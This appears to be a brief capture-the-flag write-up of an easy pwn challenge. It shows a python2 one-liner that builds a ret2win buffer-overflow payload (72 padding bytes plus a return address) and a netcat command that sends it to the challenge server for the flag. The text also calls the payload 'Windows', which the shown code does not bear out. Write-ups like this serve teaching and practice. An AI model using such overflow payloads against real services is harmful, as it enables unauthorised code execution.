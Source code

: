 __Challenge Name : Returning to Winning__

Category : PWN

Difficulty : Easy

Points : 50

Author : Samarth Kamble aka {__Nul1Sh4rk__}

DESCRIPTION : A simple pwn challenge

Attachment : [Challenge](c)

In this challenge, they provided an attachment. The first step I took was to analyze it using Ghidra. Here's what I saw:

![Ghidra](image.png)

Next, I created a simple Windows payload using Python.

```python
python2 -c print'"A"*72 + "\x96\x11\x40\x00\x00\x00\x00\x00"' > payload
```
Then using that payload binary exploited netcat server.

$$
nc 13.201.11.182 31414 < payload
$$

![Flag](image-1.png)


Flag : 0CTF{r3t2w!n_c4n_b3_v3ry_e4sy}


